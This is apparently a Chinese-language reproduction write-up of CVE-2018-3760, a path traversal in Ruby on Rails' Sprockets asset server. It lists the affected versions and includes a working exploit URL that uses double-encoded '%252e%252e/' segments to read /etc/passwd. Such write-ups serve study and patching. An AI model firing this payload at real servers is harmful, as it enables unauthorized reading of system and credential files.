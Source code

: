 （CVE-2018-3760）Ruby On Rails 任意文件读取漏洞
===============================================

一、漏洞简介
------------

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On
Rails是著名的Ruby
Web开发框架，Sprockets是编译及存储静态资源文件的Ruby库。

在3.7.1及之前的版本中，存在一处因为二次解码导致的路径穿越中断，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

二、漏洞影响
------------

4.0.0.beta7及更低版本3.7.1及更低版本2.12.4及更低版本

三、复现过程
------------

### 漏洞分析

漏洞原理问题出在`sprockets`，它用来检查 JavaScript
文件的相互依赖关系，用以优化网页中引入的js文件，以避免加载不必要的js文件。当访问如`http://www.0-sec.org:3000/assets/foo.js`时，会进入`server.rb`

### 漏洞浮现

直接访问`http://www.0-sec.org:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![1.png](./resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId26.png)

我们通过报错页面，可获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层替换，最后读取`/etc/passwd`：

    http://www.0-sec.org:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd

![2.png](./resource/(CVE-2018-3760)RubyOnRails任意文件读取漏洞/media/rId27.png)
